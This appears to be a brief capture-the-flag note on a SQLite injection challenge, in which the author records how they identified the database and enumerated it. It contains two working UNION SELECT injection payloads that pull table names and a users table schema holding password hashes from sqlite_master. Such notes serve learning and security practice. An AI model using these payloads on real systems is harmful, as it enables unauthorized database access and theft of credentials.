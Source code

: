 ### This is a very cool challenge, I didn't solve it (nearly), but, nah, just write down to remember stuff
This is a SQLite injection, how do I know it was SQLite, well fuzzing and sqlmap

So the syntax of the payload is the same but the way to extract is different:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

With this I get the table name is users:
%22 UNION SELECT tbl_name,2 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -

And with this I get the column name:
%22 UNION SELECT 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='users' -- -
```
CREATE TABLE users (
	username text primary key not null,
	password_hash text not null,
	hint text not null,
	bio text not null)
  ```
  
